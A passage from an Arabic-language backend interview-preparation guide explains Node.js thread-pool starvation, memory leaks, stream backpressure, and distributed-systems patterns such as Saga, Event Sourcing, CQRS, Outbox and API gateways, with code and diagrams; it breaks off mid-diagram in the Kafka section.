الجميع يعلم أن Node.js يمتلك مكتبة **libuv** في الخلفية والتي تحتوي على **Thread Pool أفتراضي يتكون من 4 خيوط (`UV_THREADPOOL_SIZE = 4`)**.
الـ Thread Pool ده مخصص لوظائف معينة: عمليات قراءة وكتابة الملفات (`fs`), العمليات المشفّرة (`crypto` زي `pbkdf2` و `bcrypt`), واستعلامات الـ DNS Lookup.

المشكلة المعمارية الخطيرة: **Thread Pool Starvation (مجاعة وخنق طابور الـ Threads)**:
تخيل لو سيرفر المتجر استقبل 4 طلبات تسجيل دخول في نفس اللحظة، والكود بيستخدم `bcrypt.hash()` الحسابية الثقيلة...
الـ 4 طلبات هيشغلوا الـ 4 Threads المتاحين في libuv بالكامل!
لو وصل طلب خامس في نفس اللحظة يطلب قراءة ملف بسيط من القرص الصلب `fs.readFile()`... فالطلب البسيط **سيجمد كلياً وينتظر في الطابور** حتى ينتهي أحد طلبات التشفير الأربعة!

```mermaid
flowchart TD
    subgraph libuv Thread Pool Capacity = 4 Threads
        T1[Thread 1: Heavy Bcrypt Hash]
        T2[Thread 2: Heavy Bcrypt Hash]
        T3[Thread 3: Heavy Bcrypt Hash]
        T4[Thread 4: Heavy Bcrypt Hash]
    end

    Incoming[New Incoming Simple File Read Request fs.readFile] -->|BLOCKED! Thread Pool is Starved!| Wait[Hangs in Queue...]
    
    Note over Wait: System latency spikes to seconds for simple requests!
```

```javascript
// Increasing libuv Thread Pool Size in Node.js Startup Script
// MUST be set BEFORE any async driver code executes!
process.env.UV_THREADPOOL_SIZE = '128'; // Increase from default 4 to 128 Threads

const fs = require('fs');
const crypto = require('crypto');
// Now Node.js can handle 128 parallel crypto/file ops smoothly!
```

#### مثال 1: التطبيق العملي — رفع `UV_THREADPOOL_SIZE` في خوادم Production

في سيرفر المتجر، عند بداية تشغيل السيرفر، بنظبط `process.env.UV_THREADPOOL_SIZE = 64`. هذا يوسع سعة طابور libuv ويمنع انخناق السيرفر عند ضغط قراءة الصور والتشفير.

#### مثال 2: فخ شائع — ضبط `UV_THREADPOOL_SIZE` بعد استدعاء `require('fs')`

من الفخاخ ضبط المتغير البيئي في كود JavaScript بعد استيراد مكتبات Node.js الأولية! محرك libuv يقرأ قيمة `UV_THREADPOOL_SIZE` مرة واحدة فقط عند بداية التشغيل. ضبطها لاحقاً في الكود لن يكون له أي تأثير وتظل القيمة 4.

#### مثال 3: حالة إنتاجية — استبدال الـ Sync crypto APIs بـ Async أو Worker Threads

في الكود الاحترافي، يمنع منعاً باتاً استخدام `crypto.pbkdf2Sync()` أو `fs.readFileSync()`. واستبدال مكتبات التشفير المجهدة لـ libuv بمكتبات تستفيد من عتاد الـ C++ الخارجي أو ترحيلها صراحة لـ Worker Threads (Q87).

---

## Q91 — إيه هي الـ Memory Leaks في Node.js، وإزاي تكتشفها وتصلحها؟

### أصل الحكاية

في Node.js، محرك V8 يتكفل بإدارة الذاكرة تلقائياً بواسطة **Garbage Collector (مجمع القمامة)**. الـ Garbage Collector بيطوف في ذاكرة الـ Heap، وأي متغيّر أو Object لم يعد هناك أي مرجع (Reference) يشير إليه، يقوم بمسحه وتفريغ ذاكرته.

**Memory Leak (تسريب الذاكرة)** يحصل لما الكود يحتفظ بمرجع (Reference) لبيانات قديمة لم تعد محتاجة صراحة! الـ Garbage Collector يظن أن التطبيق ما زال يحتاج هذه البيانات، فيرفض مسحها. بمرور الوقت مع كل طلب زبون، ينمو استهلاك ذاكرة الـ RAM لسيرفر Node.js من 200MB إلى 4GB حتى ينهار السيرفر بـ **`FATAL ERROR: CALL_AND_RETRY_LAST Allocation failed - JavaScript heap out of memory`**.

أشهر أسباب الـ Memory Leaks:
1. **Global Variables**: المتغيرات العامة التي تعيش للأبد.
2. **Uncleared Event Listeners / Timers**: نسى `clearInterval()` أو `removeListener()`.
3. **Closures**: الاحتفاظ بمرجع لمتغيرات خارجية داخل الدوال المعلقة.

```mermaid
flowchart TD
    Req[Incoming Request] --> AddData[Add data to Global Array cache.push]
    AddData --> GC[Garbage Collector Runs]
    GC -->|Scans Heap| CheckRef{Is data referenced globally?}
    CheckRef -- Yes --> Retain[Retain in RAM forever -> Memory Leak!]
    CheckRef -- No --> Free[Free Memory]

    Note over Retain: RAM usage grows continuously from 200MB to 4GB -> Server Crashes!
```

```javascript
// Dangerous Memory Leak Example
const globalUserCache = []; // Global Array lives forever!

app.get('/api/v1/users/track', (req, res) => {
  const userData = { id: req.query.id, time: new Date(), payload: new Array(10000) };
  
  // LEAK: Pushing to global array without eviction policy!
  globalUserCache.push(userData); 
  
  res.json({ status: 'tracked' });
});
```

#### مثال 1: التطبيق العملي — أخذ Heap Snapshots وتحليلها بـ Chrome DevTools

عند الشك في وجود Memory Leak، بنشغل Node.js بـ `--inspect` flag. بنفتح Chrome DevTools ونأخذ **Heap Snapshot** عند بداية السيرفر، وSnapshot ثانية بعد إرسال 5,000 طلب. بـ Comparison View نكشف الأوبجكتات التي تضاعف عددها ولم تتفرغ لتعرف السطر المسبب للتسريب بدقة.

#### مثال 2: فخ شائع — الـ Event Listeners المعلقة في الـ EventEmitters

من أشهر الفخاخ الاشتراك في EventEmitter داخل HTTP Request Handler: `emitter.on('event', listener)` بدون عمل `emitter.off()` عند خروج الطلب! مع كل طلب HTTP، ينضاف Listener جديد للذاكرة حتى تظهر رسالة `MaxListenersExceededWarning`.

#### مثال 3: حالة إنتاجية — استخدام `WeakMap` و `WeakSet` للمراجع الضعيفة

في الكود الاحترافي، عند الحاجة لربط بيانات جانبية بـ Objects، بنستخدم **`WeakMap`**. الـ WeakMap لا تمنع الـ Garbage Collector من مسح المفاتيح، فإذا مسح الأوبجكت الأصلي، تتفرغ الذاكرة في الـ WeakMap تلقائياً دون أي تسريب.

---

## Q92 — إيه هو الـ Backpressure في Node.js Streams، وليه مهم جداً في معالجة البيانات الكبيرة؟

### أصل الحكاية

تخيل لو سيرفر التجارة الإلكترونية بيقرأ ملف فواتير ضخم بحجم 10 Gigabytes من القرص الصلب (أو قاعدة البيانات) بسرعة تدفق فائقة (مثلاً 500MB/s)، وبيبعته عبر اتصالات الشبكة لزبون نائم على شبكة 3G بطيئة جداً تستقبل بسرعة (1MB/s) فقط!

لو السيرفر فضل يقرأ البيانات من القرص بالسرعة العالية دي ويفكها في الـ RAM... فـ الـ 10GB هينزلوا كلهم في ذاكرة الـ RAM لسيرفر Node.js في ثوانٍ معدودة في انتظار العميل البطيء! والنتيجة: انفجار ذاكرة السيرفر وتوقفه كلياً!

الحل هو **Backpressure (ضغط المقاومة العكسية)** في Node.js Streams:
آلية تنسيق وتوافق أوتوماتيكية تعلن فيها الجهة المستقبِلة البطيئة (Writable Stream) للجهة المكتوبة السريعة (Readable Stream): **"توقف عن القراءة فوراً! الـ Buffer ممتلئ! اهدأ حتى أصرف البيانات الحالية!"**. بمجرد إفراغ الـ Buffer، تبعت إشارة `drain` ليستأنف الـ Readable Stream القراءة بسلاسة.

```mermaid
flowchart LR
    Readable[Readable Stream Fast File Reader 500MB/s] -->|Pushes Data| Buffer[Internal Buffer Max HighWaterMark 64KB]
    Buffer -->|Pushes Data| Writable[Writable Stream Slow Client Network 1MB/s]
    
    Buffer -- Buffer Full! Pause Reading! --> Readable
    Writable -- Drain Event: Buffer Empty! Resume Reading! --> Buffer
```

```javascript
// Safe Streaming with Automatic Backpressure using pipeline()
const fs = require('fs');
const { pipeline } = require('stream/promises');
const zlib = require('zlib');

app.get('/api/v1/admin/export-logs', async (req, res) => {
  res.setHeader('Content-Type', 'application/gzip');
  res.setHeader('Content-Disposition', 'attachment; filename="logs.txt.gz"');

  try {
    // pipeline handles Backpressure, Drain events, and Cleanup automatically!
    await pipeline(
      fs.createReadStream('/var/log/ecommerce-big-access.log'),
      zlib.createGzip(),
      res // Express Response is a Writable Stream
    );
    console.log('Stream completed successfully with zero memory leak!');
  } catch (err) {
    console.error('Stream failed:', err);
  }
});
```

#### مثال 1: التطبيق العملي — استخدام `stream.pipeline()` لتمرير الملفات الضخمة

في المتجر، عند نقل ملفات المبيعات الضخمة، نبتعد عن `fs.readFile()` ونستخدم **`stream.pipeline()`**. الـ Pipeline تضمن الإدارة التلقائية الكاملة للـ Backpressure وتوفر حماية مطلقة للذاكرة بحيث لا يتجاوز استهلاك الـ RAM أكثر من 64KB فقط طوال عملية نقل الـ 10GB!

#### مثال 2: فخ شائع — استخدام `readable.on('data')` اليدوي بدون التعامل مع `write()` Return Value

من الفخاخ المعمارية كتابة stream يدوي بـ `readable.on('data', chunk => writable.write(chunk))` بدون فحص قيمة الـ `write()`! لو الـ Buffer امتلأ، `write()` ترجع `false`. نسيان وقف `readable.pause()` يستمر في ضخ البيانات ويلغي Backpressure كلياً.

#### مثال 3: حالة إنتاجية — ضبط الـ `highWaterMark` لتخصيص حجم الـ Buffers

في التطبيقات المتقدمة، بنخصص **`highWaterMark`** (حجم البافر المقبول قبل تفعيل Backpressure). في شبكات الألياف السريعة نرفعه لـ 512KB لتسريع النقل، وفي البيئات الحساسة للذاكرة نرجعه لـ 16KB لتوفير الـ RAM.

---

> [!tip] Checkpoint نهائي للموضوع (Concurrency وProcess/Thread Management)
> **مراجعة محورية للـ Concurrency والذاكرة:**
> 1. **Event Loop Phases (Q86)**: فهم ترتيب المراحل والـ Microtasks منعاً لـ Event Loop Starvation.
> 2. **Worker Threads & Cluster (Q87)**: استخدم Cluster لمضاعفة العمليات وتوسع الـ I/O، واستعن بـ Worker Threads للأنشطة المجهدة للـ CPU.
> 3. **Race Conditions & Redlock (Q88 & Q89)**: احمِ البيانات الموزعة بـ DB Transactions والـ Distributed Locks عبر Redis Redlock.
> 4. **Thread Pool & Memory Leaks (Q90 & Q91)**: وسع `UV_THREADPOOL_SIZE` لتفادي خنق الـ I/O، واكشف الـ Memory Leaks بـ Heap Snapshots و WeakMaps.
> 5. **Streams & Backpressure (Q92)**: اعتمد `stream.pipeline()` لتمرير البيانات الضخمة بحماية الـ RAM والتعامل التلقائي مع الـ Backpressure.

---

## Q93 — إيه هي مشكلة الـ Distributed Transactions، وليه 2PC (Two-Phase Commit) مش هو الحل الأنسب دايماً؟

### أصل الحكاية

في معمارية قواعد البيانات الموزعة (Microservices)، لما عملية الشراء محتاجة تنفذ 3 خطوات موزعة عبر 3 قواعد بيانات مختلفة:
1. خصم الرصيد في قاعدة بيانات الحسابات (`Payments DB`).
2. حجز المخزون في قاعدة بيانات المتجر (`Inventory DB`).
3. إنشاء الشحنة في قاعدة بيانات اللوجستيات (`Shipping DB`).

في قواعد البيانات العادية (Monolith SQL)، بنستخدم `BEGIN TRANSACTION ... COMMIT` لتضمن مبدأ Atomic (إما يكتمل الكل أو يلغى الكل). لكن في البيئة الموزعة، قواعد البيانات معزولة على سيرفرات مختلفة! لو الخطوة 1 و 2 نجحوا والخطوة 3 فشلت... كيف تلغي الخطوتين 1 و 2 وتسترد الأموال؟

النمط الكلاسيكي القديم هو **Two-Phase Commit (2PC)**:
منسق (Coordinator) يمر على الـ 3 DBs في مرحلتين:
- **Phase 1 (Prepare)**: يسأل كل DB "هل أنتم جاهزون للتعديل؟" ويقفل الصفوف.
- **Phase 2 (Commit/Rollback)**: لو الكل أجاب "نعم"، يرسل أمر `COMMIT` للجميع.

**السؤال في المقابلات**: ليه 2PC مش هو الحل الأنسب دائماً في السحابة الحديثة؟
السبب: **2PC هو Blocking Protocol بطيء جداً!** المحركات تقفل الصفوف وتنتظر اتصالات الشبكة بين السيرفرات. لو انقطعت الشبكة مع المنسق، تظل قواعد البيانات مغلقة ومعطلة (Blocking Locks)، مما يقتل التوفرية (Availability) كلياً!

```mermaid
flowchart TD
    subgraph Two-Phase Commit 2PC Bottleneck
        Coord[Coordinator Node] -->|Phase 1: Prepare? Locks Rows| DB1[(Payment DB - Locked)]
        Coord -->|Phase 1: Prepare? Locks Rows| DB2[(Inventory DB - Locked)]
        Coord -->|Phase 2: Commit All!| DB1
        Coord -->|Phase 2: Commit All!| DB2
    end
```

#### مثال 1: التطبيق العملي — متى يكون 2PC مقبولاً محلياً؟

يكون 2PC مناسباً فقط داخل Cluster موحد من نفس محرك قواعد البيانات (مثل CockroachDB أو Spanner) الموصل بشرائح شبكة فائقة السرعة، حيث يدير المحرك الـ Locks بخصائص أتومية منخفضة الزمان.

#### مثال 2: فخ شائع — محاولة استخدام 2PC بين Microservices مختلفة عبر HTTP/REST

من الكوارث المعمارية محاولة تنفيذ 2PC عبر استدعاءات HTTP REST بين Microservices مستقلة! أي انقطاع شبكي أو Timeout يحول النظام لـ Partial Inconsistent State معلقة للأبد.

#### مثال 3: حالة إنتاجية — استبدال 2PC بـ Saga Pattern للأنظمة الحديثة

في السحابة الحديثة، نبتعد عن 2PC القاسي ونتبنى **Saga Pattern (Q94)** القائم على الـ Eventual Consistency والـ Compensating Transactions.

---

## Q94 — إيه هو الـ Saga Pattern (Choreography vs Orchestration)، وإزاي بيضمن الـ Eventual Consistency؟

### أصل الحكاية

كما رأينا في Q93، حل مشكلة الـ Distributed Transactions في الأنظمة الحديثة هو **Saga Pattern**:
سلسلة من المعاملات المحلية التتابعية (Local Transactions). كل خدمة تنفذ معاملاتها المحلية وتطلق حدثاً (Event) لتشغيل الخدمة التالية.

السؤال الحاسمي: **ماذا يحدث لو فشلت إحدى الخطوات في المنتصف (مثلاً: بطاقة الزبون ليس بها رصيد كافٍ بعد حجز المخزون)؟**
في Saga Pattern، يطلق النظام **Compensating Transactions (المعاملات التعويضية)**: إرسال أحداث عكسية للخلف لإلغاء وتعديل ما تم بالخطوات السابقة (مثل: دالة `undoReserveInventory` لإعادة القطعة للمخزون) لإعادة النظام لحالة اتساق سلامة متكاملة (**Eventual Consistency**).

أنماط Saga الرئيسية:
1. **Choreography Saga (التناسق الذاتي)**: الخدمات تتواصل وتسمع أحداث بعضها مباشرة دون وجود مدير مرجعي مركزياً (Event-Driven via Kafka/RabbitMQ).
2. **Orchestration Saga (الإدارة المركزية)**: وجود سيرفر مدير يسمى **Saga Orchestrator** يوجه الخدمات خطوة بخطوة ويرسل أوامر الـ Rollback عند الفشل.

```mermaid
flowchart TD
    subgraph Saga Orchestration Pattern
        Orchestrator[Saga Orchestrator Service]
        
        Orchestrator -->|1. Step 1: Reserve Inventory| Inv[Inventory Service]
        Inv -- Success --> Orchestrator
        
        Orchestrator -->|2. Step 2: Charge Payment| Pay[Payment Service]
        Pay -- FAILS! Insufficient Funds! --> Orchestrator
        
        Note over Orchestrator: Trigger Compensating Transaction!
        Orchestrator -->|3. Undo Step 1: Release Inventory| Inv
    end
```

```javascript
// Saga Orchestrator Logic Example
async function executeOrderSaga(orderData) {
  try {
    // Step 1: Reserve Stock
    await inventoryService.reserve(orderData.items);
    
    try {
      // Step 2: Process Payment
      await paymentService.charge(orderData.userId, orderData.total);
    } catch (paymentErr) {
      // Compensating Transaction for Step 1!
      await inventoryService.undoReserve(orderData.items);
      throw new Error('فشلت عملية الدفع، تم إلغاء حجز المخزون بنجاح');
    }

  } catch (err) {
    return { success: false, reason: err.message };
  }
}
```

#### مثال 1: التطبيق العملي — استخدام Choreography Saga للخدمات البسيطة

في منصة المتجر، عند تسجيل زبون جديد، خدمة الحسابات تنشر `UserCreatedEvent`. خدمة الإشعارات تبعت إيميل ترحيبي، وخدمة المحفظة تنشئ رصيد مجاني 5$. لا يوجد مدير، كل خدمة تسمح وتعمل بنمط Choreography.

#### مثال 2: فخ شائع — تعقيد الـ Choreography Saga في العمليات الضخمة (Cyclic Dependencies)

من الفخاخ استخدام Choreography Saga في عملية تحتوي على 15 خطوة متتالية! من الصعب جداً تتبع مسار الاحداث في الـ Logs وفهم أين توقفت السلسلة. في العمليات المعقدة، **Orchestration Saga** هو الاختيار الأكثر وضوحاً وصيانة.

#### مثال 3: حالة إنتاجية — ضمان الـ Idempotency في جميع الـ Compensating Transactions

الدوال التعويضية (Compensating Actions) قد تتكرر إعادتها بسبب مشاكل الشبكة! ضمان أن تكون دالة `undoReserve()` **Idempotent (Q83)** حتمي لمنع إعادة إضافة المخزون مرتين خطأً.

---

## Q95 — إيه هو Event Sourcing ولإيه بيستخدم الـ Event Log كـ Single Source of Truth؟

### أصل الحكاية

في قواعد البيانات التقليدية، بنحفظ فقط **الحالة الحالية للنظام (Current State)**: جدول الحسابات يظهر `balance = 500$`. لو أردت معرفة كيف وصل هذا الحساب لـ 500$؟ ومن أين جاءت الخصومات؟ لن تجد إجابة في الجدول إلا بالبحث في ملفات تاريخية جانبية!

في المعمارية المتقدمة **Event Sourcing**:
نحكم بأن **الحالة الحالية لا تُحفظ صراحة! بدلاً من ذلك، بنحفظ جميع الأحداث التاريخية غير القابلة للتقلب (Append-Only Immutable Events) التي وقعت في النظام بالترتيب الزمني الدقيق.**
الحالة الحالية (`500$`) يتم استنتاجها وحسابها حياً عن طريق إعادة تشغيل (Replay) شريط الأحداث التاريخية: `AccountOpened ($0) -> Deposited ($1000) -> Withdrawn ($500) = Balance $500`.

الـ **Event Store** يمثل المصدر الوحيد للحقيقة المطلقة (Single Source of Truth).

```mermaid
flowchart LR
    subgraph Immutable Event Store Append Only Log
        E1[Event 1: OrderCreated #101] --> E2[Event 2: ItemAdded SKU-99] --> E3[Event 3: PaymentProcessed $50] --> E4[Event 4: OrderShipped]
    end

    subgraph State Reconstruction
        E1 & E2 & E3 & E4 --> Projection[Event Replay Engine] --> CurrentState[Current Read Model State: SHIPPED & PAID]
    end
```

#### مثال 1: التطبيق العملي — نظام السجل المالي والمحاسبي في التجارة الإلكترونية

في البنوك ومنصات المحفظة المالية للمتجر، نطبق Event Sourcing. يمنع منعاً باتاً تنفيذ `UPDATE balance`. كل معاملة هي حدث `MoneyAdded` أو `MoneyDeducted`. يمنح هذا التدقيق المالي الكامل (Audit Trail) المستحيل تزويره.

#### مثال 2: فخ شائع — بطء إعادة تشغيل الأحداث (Replay Performance Bottleneck)

من الفخاخ عندما يحتوي حساب الزبون على 2,000,000 حدث تاريخي! إعادة قراءة مليوني حدث لحساب الرصيد في كل طلب HTTP سيتسبب في بطء مدمر! الحل المعماري هو أخذ **Snapshots دورية** (مثلاً كل 1000 حدث) وقراءة أحدث Snapshot ثم إضافة الأحداث التالية عليها فقط.

#### مثال 3: حالة إنتاجية — القدرة الخارقة على السفر عبر الزمن (Time Travel Debugging)

في Event Sourcing، إذا اكتشفت ثغرة أو bug حدث الشهر الماضي، يستطيع المهندسون إعادة تشغيل الأحداث التاريخية حتى يوم 15 الشهر الماضي لرؤية شكل النظام حالة بحالة بدقة مذهلة، وهو أمر مستحيل في قواعد البيانات العادية.

---

## Q96 — إيه هو CQRS (Command Query Responsibility Segregation)، ولإيه بيمشي دايماً مع Event Sourcing؟

### أصل الحكاية

في الأنظمة الضخمة، متطلبات قراءة البيانات تفوق متطلبات كتابتها بـ 100 ضعف!
- **عمليات الكتابة (Commands)**: تحتاج إلى Normalization صارم، وأمان عالي، وقواعد ACID لضمان السلامة.
- **عمليات القراءة (Queries)**: تحتاج إلى سرعة فائقة، وبيانات مدمجة (Denormalized)، وفهارس بحث مرنة.

دمج الرغبتين في قاعدة بيانات واحدة يجعل السيرفر بطيئاً.
نمط **CQRS (Command Query Responsibility Segregation)** يقضي بـ **فصل نماذج وقواعد بيانات القراءة عن نماذج وقواعد بيانات الكتابة كلياً**:
1. **Command Side (الكتابة)**: تستقبل `CreateOrderCommand` وتكتب في DB مخصصة للكتابة (Relational Postgres 3NF) لضمان الأمان.
2. **Query Side (القراءة)**: تستقبل `GetProductCatalogQuery` وتتم القراءة من DB مخصصة للقراءة (Elasticsearch / Redis Denormalized Views) بسرعة ميكروثانية!

تتزامن قاعدة بيانات القراءة أوتوماتيكياً مع قاعدة بيانات الكتابة عبر **Event Bus** في الخلفية.

```mermaid
flowchart TD
    Client[Client App] -->|1. Write Commands| CommandAPI[Command Controller]
    Client -->|4. Read Queries| QueryAPI[Query Controller]

    CommandAPI -->|Write Strict 3NF| WriteDB[(Write DB Postgres)]
    WriteDB -->|Publish Event| EventBus[Event Bus / Kafka]
    
    EventBus -->|Sync Eventual Consistency| ReadDB[(Read DB Elasticsearch / Redis)]
    QueryAPI -->|Read Fast Denormalized| ReadDB
```

```javascript
// CQRS Handler Structure Example
// 1. Command Side (Write)
class CreateOrderCommandHandler {
  async handle(command) {
    const order = await writeRepo.save(new Order(command.data));
    await eventBus.publish(new OrderCreatedEvent(order));
    return order.id;
  }
}

// 2. Query Side (Read)
class GetOrderSummaryQueryHandler {
  async handle(query) {
    // Reads directly from ultra-fast denormalized Read Store! Zero JOINs!
    return await readRepoElastic.getById(query.orderId);
  }
}
```

#### مثال 1: التطبيق العملي — البحث الفائق في منتجات المتجر بـ Elasticsearch

في المتجر، إضافة المنتج وتعديل السعر بيتم بـ Command على PostgreSQL (Write Side). فور النجاح، ينطلق حدث يحدث مستند Elasticsearch (Read Side). تصفح المنتجات والبحث بأسماء الحروف بيتم من Elasticsearch في 2ms دون لمس داتابيز Postgres الرئيسية.

#### مثال 2: فخ شائع — تعقيد CQRS المبكر في التطبيقات الصغير (Over-Engineering)

من أكبر الأخطاء المعمارية تطبيق CQRS في مشروع ناشئ بسيط! فصل النماذج وقواعد البيانات يضيف تعقيد التشغيل ويدخل النظام في الـ **Eventual Consistency** (البيانات تظهر بعد ثانيتين في Read DB). لو لم تكن المنصة تمتلك ضغوط قراءة ضخمة، فـ Single Database مع Caching أفضل بكثير.

#### مثال 3: حالة إنتاجية — التكامل المثالي بين Event Sourcing و CQRS

نمط CQRS يعتبر شقيقاً لـ **Event Sourcing (Q95)**: الـ Event Store يمثل الـ Command Side (كتابة الأحداث فقط)، ويتم بناء وتحديث عدة **Projections / Read Models** بأساليب مختلفة (مثلاً: Projection لـ SQL, Projection لـ Neo4j Graph DB, Projection لـ Redis Cache) لإجابة استعلامات القراءة المختلفة بمرونة فائقة.

---

## Q97 — إيه هو الـ Outbox Pattern، ولإيه بيمنع فقدان الـ Events لما تـ Publish لـ Message Broker؟

### أصل الحكاية

تخيل الكارثة المعمارية التالية في خدمة الطلبات:
عند الشراء، الكود ينفذ خطوتين:
1. حفظ الطلب في قاعدة البيانات: `await db.orders.create(...)`.
2. إرسال حدث للمسدج بروكر: `await kafka.publish('order.created', orderData)`.

ماذا يحدث لو حُفظ الطلب في الداتابيز بنجاح في الخطوة 1... وفي نفس الميكروثانية قبل تنفيذ الخطوة 2، انقطعت شبكة Kafka أو انطفأ السيرفر (`process.exit()`)؟
النتيجة: الطلب محفوف في الداتابيز، ولكن لم يرسل حدث لـ Kafka! بالتالي لن يرسل إيميل للزبون، ولن يحجز المخزون، وسيتدمر النظام!

المشكلة: **لا يمكنك عمل Dual-Write Transaction متطابق بين Database و Message Broker عبر الشبكة.**

الحل المعماري هو **Transactional Outbox Pattern**:
لا ترسل الحدث لـ Kafka مباشرة في الكود! بدلاً من ذلك، احفظ الحدث صراحة داخل جدول مجاور في نفس قاعدة البيانات يسمى **`outbox_table`** داخل **نفس الـ Database Transaction الواحدة**!
ثم تعيش أداة مستقلة في الخلفية تسمى **Message Relay / Debezium (CDC)** تقرأ جدول الـ Outbox باستمرار وترسل الأحداث لـ Kafka بموثوقية كاملة (At-Least-Once Delivery).

```mermaid
flowchart TD
    subgraph Single DB Atomic Transaction
        API[Order API Service] -->|1. BEGIN TRANSACTION| DB[(Postgres DB)]
        API -->|2. INSERT INTO orders| DB
        API -->|3. INSERT INTO outbox_events| DB
        API -->|4. COMMIT TRANSACTION| DB
    end

    subgraph Reliable Event Publisher
        Relay[Message Relay / Debezium CDC] -->|5. Polls or CDC Read| DB
        Relay -->|6. Publishes Event safely| Kafka[Kafka Message Broker]
        Relay -->|7. Mark Event as Sent| DB
    end
```

```sql
-- Outbox Table Schema Example
CREATE TABLE outbox_events (
    id UUID PRIMARY KEY,
    aggregate_type VARCHAR(255) NOT NULL,
    aggregate_id VARCHAR(255) NOT NULL,
    type VARCHAR(255) NOT NULL,
    payload JSONB NOT NULL,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
    processed BOOLEAN DEFAULT FALSE
);
```

#### مثال 1: التطبيق العملي — تضمن عدم فقدان أي حدث مالي بـ Change Data Capture (CDC)

في منصة المتجر، نستخدم أداة Debezium الموصولة بـ PostgreSQL Write-Ahead Log (WAL). بمجرد كتابة الصف في `outbox_events` أتومياً، Debezium يلقط التغيير ويرسله لـ Kafka في 5ms. حتى لو سقط سيرفر Node.js، الحدث محفوظ في الداتابيز وسيتم إرساله فور عودة السيرفر.

#### مثال 2: فخ شائع — محاولة مسح الصفوف فوراً من جدول الـ Outbox وتضخيم الـ Write IOPS

من الفخاخ كتابة استعلام `DELETE FROM outbox_events` مع كل رسالة! عملية الحذف المباشر تسبب خنقاً لـ Postgres I/O. الصواب هو تحديث `processed = true` وعمل مسح دوري دفعة واحدة (Batch Cleanup) للجداول القديمة كل ليلة.

#### مثال 3: حالة إنتاجية — ضمان المعالجة مع التكرار بـ At-Least-Once Delivery

بفضل Outbox Pattern، تضمن وصول الرسالة مرة واحدة على الأقل (**At-Least-Once Delivery**). لضمان السلامة الكاملة عند المستلم، يتوجب على الـ Consumers تطبيق **Idempotency Check (Q83)** للتعامل التلقائي في حال تكرار استلام الرسالة.

---

## Q98 — إيه دور الـ API Gateway في معمارية الـ Microservices؟

### أصل الحكاية

لما تتوسع منصة التجارة الإلكترونية لـ 40 Microservice معزولة (Order Service, Product Service, Auth Service, Payment Service, Shipping Service)... لو تركنا تطبيقات الموبايل ومتصفحات الزبائن تتصل بكل Microservice مباشرة...
سيمتلي الفرونت اند بعشرات عناوين الـ IP والموانئ، وسنضطر لإعادة كتابة التوثيق (JWT Check)، والـ Rate Limiting، وتشفير SSL داخل الـ 40 خدمة!

الحل هو **API Gateway (بوابة التطبيقات المركزية)**:
سيرفر موحد يقف كنقطة دخول واحدة (Single Entry Point) أمام العالم الخارجي، ويتكفل بـ:
1. **Request Routing**: توجيه الطلب للـ Microservice المناسبة بناءً على المسار (`/api/v1/orders` تنقل لـ Order Service).
2. **Authentication & Authorization**: التحقق من صحة الـ JWT Token مرة واحدة في البوابة قبل إدخال الطلب للشبكة الداخلية.
3. **Rate Limiting & Throttling**: حماية الخدمات الداخلية من هجمات الـ Abuse.
4. **Protocol Translation**: تحويل REST/JSON المرسلة من العميل لـ gRPC للخدمات الداخلية.

```mermaid
flowchart TD
    Client[Clients Mobile / Web Browser] -->|HTTPS Single Entry Point| Gateway[API Gateway Kong / Nginx / AWS API Gateway]
    
    subgraph Internal Secure Microservices Mesh
        Gateway -->|Route /auth & Auth Check| AuthSvc[Auth Service]
        Gateway -->|Route /orders via gRPC| OrderSvc[Order Service]
        Gateway -->|Route /products| CatalogSvc[Catalog Service]
        Gateway -->|Route /payments| PaymentSvc[Payment Service]
    end
```

```javascript
// Simple API Gateway Proxy using express-http-proxy
const express = require('express');
const proxy = require('express-http-proxy');
const app = express();

// Global Authentication Guard at Gateway Level
app.use(verifyJwtMiddleware);

// Route Requests to target Microservices
app.use('/api/v1/orders', proxy('http://order-service.internal:3001'));
app.use('/api/v1/products', proxy('http://catalog-service.internal:3002'));
app.use('/api/v1/payments', proxy('http://payment-service.internal:3003'));

app.listen(8000, () => console.log('API Gateway running on port 8000'));
```

#### مثال 1: التطبيق العملي — حماية الشبكة الداخلية وتسهيل الـ Cross-Cutting Concerns

في المتجر، بنستخدم **Kong API Gateway**. Kong يتعامل مع شهادات SSL، ويطبق SSL Termination، ويفحص الـ JWT Token، ويرفق الـ `X-User-Id` في الـ Headers للخدمات الداخلية. الخدمات الداخلية تصبح معزولة في شبكة VPC مغلقة لا يمكن الوصول إليها صراحة إلا من البوابة.

#### مثال 2: فخ شائع — تحويل الـ API Gateway لـ Monolithic God Service (كتابة Business Logic بالداخل)

من الخطأ المعماري الكبير كتابة Business Logic واستعلامات قواعد البيانات صراحة داخل كود الـ API Gateway! الـ Gateway يجب أن يظل **Smart Endpoints, Dumb Pipes** مجرد موجه ومصادق خفيف جداً. كتابة المعالجات بالداخل يحوله لـ Bottleneck أحادي مدمر للأنظمة الموزعة.

#### مثال 3: حالة إنتاجية — نمط الـ Backend-For-Frontend (BFF)

في المشاريع الكبيرة، نطبق **BFF Pattern**: إنشاء API Gateways مخصصة بحسب نوع العميل: `Mobile API Gateway` يرجع ردود مدمجة وخفيفة لشبكة الموبايل، و `Web API Gateway` يرجع بيانات تفصيلية للشاشات الكبيرة.

---

## Q99 — إزاي تبني Event-Driven Architecture صلبة باستخدام RabbitMQ أو Kafka؟

### أصل الحكاية

في المعمارية الموجهة بالأحداث **Event-Driven Architecture (EDA)**، التطبيق لم يعد يتكون من أجزاء يطلب بعضها بعضاً بلغة الأوامر الصريحة (Imperative Calls)، بل يتكون من مكونات مستقلة تتفاعل بناءً على **سريان وإطلاق الأحداث (Event Streams)**.

تخيّر اختيار الرسائل المناسب بين الأداتين الشهيرتين:
- **RabbitMQ (Message Queue - Smart Broker, Dumb Consumer)**: ممتاز لتوزيع المهام والرسائل المعقدة (Routing, Fanout, Topics) على Workers مع مسح الرسالة فور معالجتها. (مبني بـ Erlang، ومناسب للـ Background Job Queues والـ Webhooks).
- **Apache Kafka (Event Streaming Platform - Dumb Broker, Smart Consumer)**: ممتازة لمعالجة مجاري البيانات الضخمة (High-Throughput Streaming). الرسائل تحفظ في Log دائم على القرص بالترتيب، ويستطيع كل Consumer قراءة السجل بسلاسة وإعادة القراءة عند الحاجة.

```mermaid
flowchart TD
    subgraph Event-Driven Architecture Pipeline
        Producer[Order Service Producer] -->|Publishes Event: OrderPlaced| KafkaTopic[Kafka Event Log: order-events Topic]
        
        KafkaTopic -->|Offset 101| Consumer1[Inventory Worker: Deducts Stock]
